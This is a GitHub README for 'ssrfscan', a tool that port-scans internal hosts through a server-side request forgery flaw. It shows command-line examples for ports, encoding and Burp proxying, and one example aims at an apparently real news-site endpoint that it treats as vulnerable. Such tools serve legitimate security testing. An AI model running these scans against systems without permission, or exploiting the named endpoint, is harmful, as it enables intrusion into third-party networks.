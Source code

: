 # ssrfscan
Modular ssrf port scanner that takes input from cli or burp request file.  
Output is shown as status code and time to complete request.  
If response returns content and has a status code of 200, it will show that url for further investigation.  

![Screenshot from 2022-04-03 18-04-26](https://user-images.githubusercontent.com/36344197/161451602-0c5c4240-3482-4fb5-8f49-38db746e0ec5.png)


- Example: ssrfscan.py -ss https://ssrf.vulnerable.site/?url= -c http:// -t 127.0.0.1 -p 80,443,31337,8080 -u /favicon.ico -e b64 -b  
*Set site vulnerable to ssrf with -ss , http://127.0.0.1/favicon.ico will be requested on ports 80,443,31337,8080, base64 encoded, and proxied through burp*  
- Example: ssrfscan.py -f getreq2.txt -t 127.0.0.1 -u /someplace/special.svg -s http:// -e url  
*Request burp saved request file (must define insertion point as 'ssrf'), port scan http://127.0.0.1/someplace/special.svg, url encoded*  
- Example: ssrfscan.py -sss 'https://epaper.ajc.com/html5/Newsday/getatex.aspx?url=http://127.0.0.1:*/index.html' -p 22,21  
*Simple method, provide whole ssrf url including target, define port location with '*'




Reponses should look similar to the following depending on the ssrf and responses.
![Screenshot from 2022-03-30 10-39-55](https://user-images.githubusercontent.com/36344197/160861995-7d84fb3b-4ef3-416f-bfa4-fe90d8ae01dd.png)

If you see a feature that you would like added or suggestion for improvement please let me know.

